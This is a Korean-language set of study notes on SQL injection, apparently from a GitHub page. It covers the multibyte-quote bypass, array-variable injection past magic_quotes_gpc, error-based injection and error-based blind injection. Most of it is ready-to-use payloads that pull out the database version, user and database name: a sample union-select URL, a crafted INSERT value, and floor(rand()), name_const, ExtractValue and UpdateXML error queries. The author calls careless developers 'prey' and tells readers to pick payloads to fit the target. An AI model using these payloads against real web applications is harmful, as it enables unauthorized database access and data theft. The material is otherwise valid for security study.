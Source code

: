 %a1%c가 하나의 문자로 인식되어(멀티바이트) 한개의 문자와 '(single quotes)가 데이터베이스로 전송되고 결국 '(single quotes)가 데이터베이스에서 처리된다.

예시:
http://url/?pw=%aa' union select 1,2,3,4@@version,user(),7,database,9,10#

### 왜 %a1 ~ $fe 사이의 값인가?
현재 구글링 중인데 아직 잘 모르겠다.ㅠㅠ

# Array 변수를 사용한 SQL Injection

php.ini 파일에서 magic_quotes_gpc = on 으로 설정해두면 클라이언트가 서버로 보내는 데이터에서 싱글쿼터 앞에 백슬래시를 붙여준다.
이는 SQL Injection 공격을 하는데에 큰 걸림돌이 되곤 한다.
그런데 magic_quotes_gpc 는 GET, POST, COOKIE 로 날아온 값에만 적용된다.
magic_quotes_gpc 만 믿고 , Array 변수를 데이터베이스에 함부로 날리는 개발자는 우리의 아주 좋은 먹잇감이다.

이를테면 insert into uploadfile values('filename','path') 라는 쿼리를 날렸을 경우에는 filename 대신에
fdsa'),(user(),'1234'),('asdf 라는 값을 날려서
insert into uploadfile values('asdf','fdsa'),(version(),'1234'),('asdf','path') 이런식으로 쿼리가 조작될 수 있는 것이다.

insert 쿼리에서 insert into table values('asdf',1),('fdsa',2),('zxc',3) 이런식으로 여러개의 값을 동시에 넣을 수 있다는 사실을 몰랐다면 이 기회에 알아두자.



# Error Based SQL Injection

에러메세지를 출력해주는 제한적인 환경에서만 사용 가능하다.
에러기반 SQLi 기법은 mssql 환경에서는 아주 수월하다.
서로 다른 데이터형의 값을 비교하게되면 앞의 값을 뒤의 데이터형과 비교할 수 없다고 에러메세지를 한번에 뿜어주기 때문이다.

이를테면
select * from table where 'asdf'=123
이라는 쿼리를 날렸을 경우에
['asdf' 를 int 형의 값과 비교할 수 없습니다!]
라는 에러메세지가 뜬다.

그러나 mysql 에서는 auto type cast 를 해주기 때문에 서로 다른 데이터형의 값을 비교해도 아무런 문제가 없다.
원하는 값을 에러메세지에 한번에 띄우기 위해서는
select sum(5),concat(version(),floor(rand(0)*2)) as a from information_schema.tables group by a
이런식으로 공격해야한다.
여러개의 값에 같은 키워드를 주고 그 키워드로 정렬해서 에러를 내는 원리이다.

아래는 몇가지 예시이다.
select * from (select name_const(version(),1),name_const(version(),1))a
select * from table where 1=1 and ExtractValue(1,concat(0x01,version()))
select * from table where 1=1 and UpdateXML(1,concat(0x01,version()),1)
select * from table where (@:=1)or@ group by concat(@@version,@:=!@)having@||min(0)
환경에 맞게 골라쓰자.



# Error Based Blind SQL Injection
사용할 상황이 드문 공격기법이지만 알아둬서 나쁠건 없으니 개념만 알아두자.
select * from table where 1 and if(1=1,1,(select 1 union select 2))
select * from table where 1 and if(1=2,1,(select 1 union select 2))

